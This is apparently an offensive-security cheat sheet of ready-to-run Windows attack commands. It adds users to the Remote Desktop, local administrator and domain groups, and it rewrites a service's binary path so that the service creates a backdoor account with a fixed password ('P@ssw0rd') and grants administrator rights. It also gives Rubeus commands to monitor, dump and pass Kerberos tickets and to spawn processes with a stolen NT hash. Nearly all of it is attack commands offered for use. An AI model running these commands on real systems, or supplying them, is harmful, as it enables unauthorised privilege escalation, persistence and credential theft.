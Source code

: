 ## add user to RDP
```
net localgroup "Remote Desktop Users" <username> /add
```

## add user to local administrator
```
net localgroup administrators <username> /add
```

## add user to domain group
```
NET LOCALGROUP "<group_name>" <username> /ADD /DOMAIN
```

## add usdf - Modify service binary path
```
sc config <Service_Name> binpath= "net user rilak 'P@ssw0rd' /add"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
```

# Rubeus
## Rubeus monitor (user or computer)
```
Invoke-Rubeus monitor /interval:5 /nowrap /filteruser:<username>
```

## Rubeus pass the ticket
```
Invoke-Rubeus ptt /ticket:<base64_ticket>
```

## Rubeus show tickets (TGT)
```
Invoke-Rubeus triage
```

## Rubeus dump ticket
```
Invoke-Rubeus dump /nowrap
```

## Rubeus Create a process with other user
```
Invoke-Rubeus asktgt /user:<username> /rc4:<nthash> /createnetonly:powershell.exe /show
```
